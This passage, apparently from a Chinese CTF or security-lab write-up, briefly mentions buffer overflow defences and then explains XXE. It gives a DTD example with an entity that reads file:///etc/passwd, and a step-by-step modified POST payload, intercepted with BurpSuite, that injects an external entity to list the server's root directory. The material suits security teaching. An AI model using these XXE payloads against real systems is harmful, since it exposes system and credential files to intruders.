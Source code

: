   <img width="400" alt="溢出覆盖" src="img/return-error.jpg">

- 可以进行边界检查, 但需要额外的代码和处理时间。现代操作系统常用随机化内存布局的方式(这样每次运行时, 函数在内存的位置都无法确定)来抵抗缓冲区溢出攻击, 或者在缓冲区之间留出空间并寻找写入这些区域的操作

### XXE

#### 前置知识

- DTD(DTD Document Type Definition, 文档类型定义), 可定义合法的XML文档构建模块。
  ```html
  <!-- 内部 DOCTYPE 声明 -->
  <!DOCTYPE 根元素 [元素声明]>
  <!-- 内部实体声明 -->
  <!ENTITY 实体名称 "实体的值">

  <!-- 一个实例(定义+使用) Start -->
  <?xml version="1.0"?>

  <!DOCTYPE AC [
    <!ENTITY problem_num "ns0x07">

    <!-- Accessing a local resource -->
    <!ENTITY passwd SYSTEM "file:///etc/passwd">
  ]>

  <problem>&problem_num;</problem>
  <!-- 一个实例 End-->
  ```

#### XML External Entity (XXE)

- 本题需要通过`XXE`来展示根目录
- 首先通过输入可以发现程序会将输入字符串展示在页面上(根据源代码的检查机制, 似乎无法使用跨站脚本攻击): <br>
![展示字符串](img/show-search-string.jpg)
- 使用`BurpSuite`拦截, 发现`POST`中的参数是`<?xml version="1.0"?><searchForm>  <from>BOS</from></searchForm>`
- 修改为`<?xml version="1.0"?><!DOCTYPE AC [<!ENTITY root SYSTEM "file:///">]><searchForm><from>&root;</from></searchForm>`并发送
